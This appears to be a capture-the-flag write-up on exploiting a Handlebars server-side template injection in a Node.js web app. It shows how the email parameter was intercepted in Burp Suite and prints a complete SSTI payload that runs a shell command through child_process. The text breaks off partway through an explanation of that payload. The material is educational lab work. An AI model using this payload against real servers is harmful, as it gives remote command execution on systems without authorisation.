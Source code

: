 *This error (omitted here) means that the payload was indeed detected as valid by the template engine, however the code had some error and was unable to be executed. An error is not always a bad thing. On the contrary for a penetration tester, it can provide valuable information. In this case we can see that the server is running from the ```/root/Backend``` directory and also that the Handlebars Template Engine is being used.*

## Exploitation

The next section on the official write-up focuses on the exploitation: *Looking back at Hacktricks page we have researched, we can see that both Handlebars and Node.js are mentioned, as well as a payload that can be used to potentially run commands on a Handlebars SSTI. To determine if this is the case, we can use Burpsuite to capture a POST request via FoxyProxy and edit it to include our payload.*

Next, there's a screenshot (omitted here) showing the Proxy → Intercept tab in Burp Suite with the captured raw request. The key detail to focus on is the email parameter, where we’ll insert the payload discussed below. Here is the email parameter:

```
(...)
Email=%7B%7(...)&action=submit
```

And now back to the official write-up: *Before we modify the request, let's send this HTTP packet to the Repeater module of BurpSuite by pressing CTRL+R . Now let's grab a payload from the section that is titled "Handlebars (NodeJS)" in the HackTricks website.*

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

The official write-up didn't try to explain this code, so here is what I have managed to learn about it:

1. Handlebars Context Manipulation: The payload uses Handlebars' ```#with``` helper to create and manipulate context variables. It starts by assigning the string "s" to a variable called ```string```. This allows us to work with string methods within Handlebars.
